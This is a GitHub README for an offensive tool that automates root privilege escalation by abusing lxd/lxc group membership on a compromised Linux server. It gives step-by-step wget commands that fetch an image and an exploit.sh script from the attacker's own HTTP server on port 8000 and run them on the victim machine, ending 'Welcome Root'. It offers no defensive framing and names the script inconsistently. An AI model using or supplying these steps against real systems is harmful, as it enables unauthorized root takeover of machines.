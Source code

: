 # lxc-Privilage-Escalation

## Description

lxc Privilage Escalation Is An Automation Tool To Exploit The Linux xlc Group Misconfiguration Which Leads To Get High Previlage (root) In The Compromised Server Or Machine

## Requitements

<ul>
<li>python3 |-> To Start The Host Server With It</li>
<li>Linux Debian Based |-> Because It Written With Bash :) & The apt For Debian Based Distros Like:</li>
</ul>
<ol>
<li>Debain</li>
<li>Ubuntu</li>
<li>Kali</li>
<li>Parrot OS</li>
<li>Back Box (Ubuntu Based)</li>
</ol>

## Wiki
- Clone The Repository:

`git clone https://github.com/Cyber-Guy1/lxc-Privilage-Escalation.git`

- Or Download It As A zip File

- Get Into The Cloned Repository:

`cd lxc-Privilage-Escalation`

- Give It The Right Permission:

`chmod +x xlc-exploit.sh`

- Run It:

`./exploit.sh`

- After The Tool Finished It's Tasks Now Go To The Compromised Machine

- Upload The Files Which Will Be The Exploit For Us In The Compromised Machine By Doing:

 `wget http://[Your IP]:8000/lxd.tar.xz` [-] For Example: `wget http://192.168.1.5:8000/lxd.tar.xz`<br><br>
 `wget http://[Your IP]:8000/rootfs.squashfs` [-] For Example: `wget http://192.168.1.5:8000/rootfs.squashfs`<br><br>

- Then Upload The Exploitation Script:

`wget http://[Your IP]:8000/exploit.sh` [-] For Example: `wget http://192.168.1.5:8000/exploit.sh`

- Give It The Right Permission:

`chmod +x exploit.sh`

- Finally Run It:

`./exploit.sh`

## Welcome Root ;)
